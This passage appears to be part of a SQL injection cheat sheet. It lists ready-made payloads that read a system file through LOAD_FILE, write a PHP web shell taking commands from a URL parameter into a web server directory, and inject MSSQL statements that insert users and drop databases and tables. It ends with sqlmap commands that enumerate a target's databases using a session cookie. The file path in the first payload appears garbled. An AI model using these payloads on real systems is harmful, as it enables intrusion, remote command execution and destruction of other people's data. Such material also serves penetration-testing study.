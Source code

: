 ##### Loading a file

```sh
NULL UNION ALL SELECT LOAD_FILE('/etc/password')/*
```

##### Writing a file
```sh
NULL UNION ALL SELECT NULL,NULL,NULL,NULL,'<?php system($_GET["command"]);?>' INTO OUTFILE '/var/www/custom_path/shell.php'/*
```

#### Manage data

##### MSSQL

###### Inserting a row

```sh
1';insert into users values ('john','toor'); --
```

###### Creating a database

```sh
1';create database mydatabase; -- 
```

###### Deleting a database

```sh
1'; DROP DATABASE mydatabase; -- 
```

###### Deleting a table

```sh
1'; DROP TABLE users; -- 
```

#### Using sqlmap

##### SQL Injection in a page using a cookie, retrieve databases

```sh
sqlmap -u "[HOST]" --cookie="[COOKIE]" --dbs
```
-u: Specifies the target URL.
 
--cookie: Specifies the HTTP cookie header value.

--dbs: Enumerates DBMS databases.

##### Choose a database and retrieve the tables

```sh
sqlmap -u "[HOST]" --cookie="[COOKIE]" -D [DATABASE] --tables
```
